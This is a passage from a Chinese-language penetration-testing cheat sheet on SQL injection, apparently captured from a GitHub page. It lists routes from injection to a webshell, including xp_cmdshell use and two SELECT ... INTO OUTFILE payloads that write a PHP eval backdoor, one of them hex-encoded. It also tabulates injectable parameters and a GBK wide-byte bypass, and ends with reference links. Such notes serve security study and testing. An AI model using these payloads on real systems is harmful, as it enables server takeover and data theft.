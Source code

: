 1.  注入，查数据，找管理员密码，进后台，找上传，看返回，getshell
2.  PHP MYSQL 类，大权限，知路径，传文件，回shell(上传&命令执行)，OS-SHELL。
3.  MSSQL大权限，知路径，传文件，回shell。结合xp_cmdshell 执行系统命令。
4.  Phpmyadmin getshell （编码）
    1.  `select '<?eval($_POST[cmd]);?>' into outfile 'd:/wwwroot/1.php';`
5.  Union select getshell
    1.  `and 1=2 union select 0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/alidata/www/cms/ttbdxt/conf.php'--`

### 7.2 关联功能点

| 序号 | 功能点 | 参数 |
| --- | --- | --- |
| 1 | 登录 | Username password |
| 2 | Header | Cookie Referer x-forward remote-ip |
| 3 | 查询展示 , 数据写入（表单） , 数据更新 | id u category price str value |
| 4 | 数据搜素 | Key |
| 5 | 伪静态 | （同3），加* |
| 6 | Mysql不安全配置 ,`Set character_set_client=gbk` | %df%27 |
| 7 | 传参（横向数据流向、纵向入库流向） | Parameter （同3） |
| 8 | 订单类多级交互、重新编辑 , 配送地址、资料编辑 | 二次注入 |
| 9 | APP仍调用WEB API | 同3 |
| 10 | 编码urldecode base64 | Urldecode() rawurldecode() |

0x08 参考资料
=========

* * *

*   [http://blog.csdn.net/rongyongfeikai2/article/details/40457827](http://blog.csdn.net/rongyongfeikai2/article/details/40457827)
*   [http://drops.wooyun.org/tips/5254](http://drops.wooyun.org/tips/5254)
*   [https://www.91ri.org/7852.html](https://www.91ri.org/7852.html)
*   [https://www.91ri.org/7869.html](https://www.91ri.org/7869.html)
*   [https://www.91ri.org/7860.html](https://www.91ri.org/7860.html)
*   [http://www.cnblogs.com/hongfei/category/372087.html](http://www.cnblogs.com/hongfei/category/372087.html)
*   [http://www.cnblogs.com/shellr00t/p/5310187.html](http://www.cnblogs.com/shellr00t/p/5310187.html)
*   [https://www.91ri.org/15074.html](https://www.91ri.org/15074.html)
*   [http://blog.wils0n.cn/?post=11](http://blog.wils0n.cn/?post=11)